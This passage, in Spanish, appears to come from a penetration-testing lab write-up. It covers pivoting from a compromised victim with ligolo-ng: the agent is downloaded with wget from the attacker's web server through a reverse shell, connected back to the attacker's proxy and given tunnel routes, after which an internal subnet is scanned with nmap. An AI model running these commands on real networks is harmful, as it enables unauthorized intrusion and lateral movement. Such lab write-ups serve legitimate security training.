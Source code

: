 Ahora necesitamos ejecutar el agente en (V) donde tenemos la shell reversa. Una forma podría haber sido descargarlo directamente con wget desde la víctima y otra forma puede ser utilizar el servicio web que ya posee KaliLinux en (A) para disponibilizar. Para ello en (A) copiamos el archivo agent al directorio /var/www/html. También nos aseguramos que el servicio de apache2 esté iniciado.
![[fig36.png]]

Vamos a la shell reversa que tenemos con (V) y ejecutamos wget `http://10.1.0.8/agent`
![[fig37.png]]
Le damos permisos de ejecución con `chmod +x agent`
![[fig38.png]]
Ahora procedemos a iniciar el proxy en (A) mediante el comando `sudo ./proxy -selfcert`. Tenemos que usar sudo para que ligolo-ng pueda administrar nuestras interfaces de red y rutas hacia el agente. Además, utilizamos el parámetro -selfcert porque no necesitamos más que una comunicación simple y de ser posible encriptada con TLS.
![[fig39.png]]
  
Por defecto, ligolo escucha en el puerto `11601`, ejecutamos en la víctima el agente con el comando `./agent -connect 10.1.0.8:11601 -ignore-cert`
![[fig40.png]]
Listo, nuestro agente está conectado a nosotros. También desde (A) podemos observar esto:
![[fig41.png]]
Ahora debemos configurar las rutas. Para ello en (A) creamos una nueva interfaz que nos ayudará a hacer de tunel hacia el agente con el comando `ifcreate --name ligolo`
![[fig42.png]]
Agregamos la ruta hacia la red 172.101.0.0/28 que obtuvimos anteriormente (Fig. 10). Usamos el comando `route_add --name ligolo --route 172.101.0.0/28`
![[fig43.png]]
Si observamos con `iflist` ya tenemos configurada la ruta
![[fig44.png]]
Con el comando session seleccionaremos el agente que está conectado
![[fig45.png]]
Ejecutamos tunnel_start
![[fig46.png]]
Listo, ahora desde (A) mediante otra terminal podemos verificar que tenemos ping a `172.101.0.2`
![[fig47.png]]
Por lo tanto, ya podemos proceder a escanear la red. Usamos nuevamente nmap sobre toda la red utilizando el comando `nmap -sV -sC -O -p- 172.101.0.0/28`
![[fig48.png]]
  ![[fig49.png]]
Encontramos los siguientes hosts:
1. IP `172.101.0.1`
	- SSH (22/tcp)
	- Servidor web (80/tcp)
2. IP `172.101.0.2` es donde estamos ejecutando el agente ligolo-ng
3. IP `172.101.0.3`:
	- FTP (21/tcp)
4. IP `172.101.0.4`:
	- SSH (22/tcp)
5. IP `172.101.0.11`:
	- SSH (22/tcp)
## Accediendo al servicio de FTP
